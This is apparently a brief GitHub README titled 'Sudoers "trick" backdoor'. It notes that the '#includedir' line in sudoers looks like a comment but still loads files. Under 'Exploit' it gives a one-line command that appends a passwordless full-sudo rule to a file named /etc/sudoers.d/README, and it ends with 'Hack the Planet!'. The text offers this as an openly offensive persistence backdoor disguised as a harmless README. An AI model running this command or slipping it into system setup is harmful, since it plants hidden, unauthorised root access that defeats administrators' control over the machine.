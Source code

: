 Sudoers "trick" backdoor
======================

"*...It is possible to include other sudoers files from within the sudoers file currently being parsed using the #include and #includedir directives...*"

**Video**

<a href="http://www.youtube.com/watch?feature=player_embedded&v=tkwEn7q0Cc0" target="_blank"><img src="http://img.youtube.com/vi/tkwEn7q0Cc0/0.jpg" alt='Pound sign "trick" with #includedir sudoers file' width="480" height="360" border="10" /></a>

**Exploit**
```shell-session

sudo su -c "echo '<user> ALL = NOPASSWD: ALL' >> /etc/sudoers.d/README"

```

Keep your eyes open, sometimes pound sign does not mean comment! Hack the Planet!


